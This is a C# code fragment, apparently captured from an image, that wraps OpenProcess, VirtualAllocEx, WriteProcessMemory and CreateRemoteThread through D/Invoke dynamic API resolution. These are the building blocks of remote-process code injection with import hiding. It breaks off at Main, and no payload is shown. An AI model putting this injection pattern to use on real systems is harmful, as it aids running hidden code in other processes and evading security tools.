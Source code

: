 ```csharp

        [UnmanagedFunctionPointer(CallingConvention.StdCall)]
        public delegate IntPtr CreateRemoteThread(
            IntPtr hProcess,
            IntPtr lpThreadAttributes,
            uint dwStackSize,
            IntPtr lpStartAddress,
            IntPtr lpParameter,
            uint dwCreationFlags,
            IntPtr lpThreadId);
    }

    public class Program
    {
        static IntPtr OpenProcess(DInvoke.Data.Win32.Kernel32.ProcessAccessFlags dwDesiredAccess, bool bInheritHandle, int dwProcessId)
        {
            object[] parameters = { dwDesiredAccess, bInheritHandle, dwProcessId };
            var result = (IntPtr)DInvoke.DynamicInvoke.Generic.DynamicAPIInvoke("kernel32.dll", "OpenProcess", typeof(Delegates.OpenProcess), ref parameters);

            return result;
        }

        static IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect)
        {
            object[] parameters = { hProcess, lpAddress, dwSize, flAllocationType, flProtect };
            var result = (IntPtr)DInvoke.DynamicInvoke.Generic.DynamicAPIInvoke("kernel32.dll", "VirtualAllocEx", typeof(Delegates.VirtualAllocEx), ref parameters);

            return result;
        }

        static bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, int nSize, out IntPtr lpNumberOfBytesWritten)
        {
            var numBytes = new IntPtr();

            object[] parameters = { hProcess, lpBaseAddress, lpBuffer, nSize, numBytes };
            var result = (bool)DInvoke.DynamicInvoke.Generic.DynamicAPIInvoke("kernel32.dll", "WriteProcessMemory", typeof(Delegates.WriteProcessMemory), ref parameters);

            if (!result) throw new Win32Exception(Marshal.GetLastWin32Error());
            lpNumberOfBytesWritten = (IntPtr)parameters[4];

            return result;
        }

        static IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId)
        {
            object[] parameters = { hProcess, lpThreadAttributes, dwStackSize, lpStartAddress, lpParameter, dwCreationFlags, lpThreadId };
            var result = (IntPtr)DInvoke.DynamicInvoke.Generic.DynamicAPIInvoke("kernel32.dll", "CreateRemoteThread", typeof(Delegates.CreateRemoteThread), ref parameters);

            return result;
        }

        public static void Main(string[] args)
        {
```

[//]: # (2022-03-29)
